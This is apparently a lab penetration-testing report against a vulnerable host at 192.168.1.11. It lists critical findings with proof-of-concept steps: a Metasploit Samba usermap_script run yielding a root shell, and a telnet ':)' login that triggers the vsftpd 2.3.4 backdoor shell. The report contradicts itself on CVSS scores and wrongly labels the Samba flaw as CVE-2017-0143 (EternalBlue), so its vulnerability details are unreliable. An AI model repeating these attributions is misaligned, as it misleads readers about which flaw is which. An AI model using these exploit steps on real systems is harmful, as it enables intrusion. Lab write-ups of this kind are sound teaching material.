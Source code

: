 **Key Findings:**
1. **CVE-2017-0143 (CVSS 10.0)**: The Samba service is vulnerable to the EternalBlue exploit,
allowing remote code execution.
2. **CVE-2011-2523 (CVSS 9.8)**: A critical backdoor in VSFTPD version 2.3.4 allows remote
command execution.
3. **CVE-2010-2075 (CVSS 9.8)**: UnrealIRCd version 3.2.8.1 contains a backdoor that allows
unauthorized command execution.
4. **CVE-2004-2687 (CVSS 9.8)**: The DistCC service allows unauthorized remote command
execution.
5. **Weak Configuration (CVSS 9.1)**: The Apache Tomcat server is configured with default
credentials, allowing potential deployment of malicious web applications.

#### Proof of concept 

##### Vulnerability 1: Samba RCE CVE-2017-0143
**CVSS 4.0 Score**: `9.8 (Critical)`  
**Vector**: `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N`

- **Description**: Exploits a command injection flaw in Samba’s `username map script` feature.
- **Exploitation**: Using Metasploit:
```bash
msfconsole

use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.11
    
run

```

- **Result**: Gained root shell instantly.
- **Impact**: Full system compromise — attacker gains complete control.
- **Why Critical?**  
    No authentication, no user interaction, remote exploit.
 ![[VAPT Lab Activities - Complete Documentation Report-1755794953542.jpeg]]

##### Vulnerability 2: vsftpd 2.3.4 Backdoor – CVE-2011-2523

**CVSS 4.0 Score**: `9.1 (Critical)`  
**Vector**: `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N`

- **Description**: Malicious version of vsftpd contains a hidden backdoor triggered by `:)` in username.
- **Exploitation**:
```bash
telnet 192.168.1.11 21
Username: test:)
```

	Backdoor opens port 6200 for bind shell.
- **Impact**: Full remote code execution as root.
- **Note**: Not always reliable; depends on exact build.
![[VAPT Lab Activities - Complete Documentation Report-1755795468188.jpeg]]
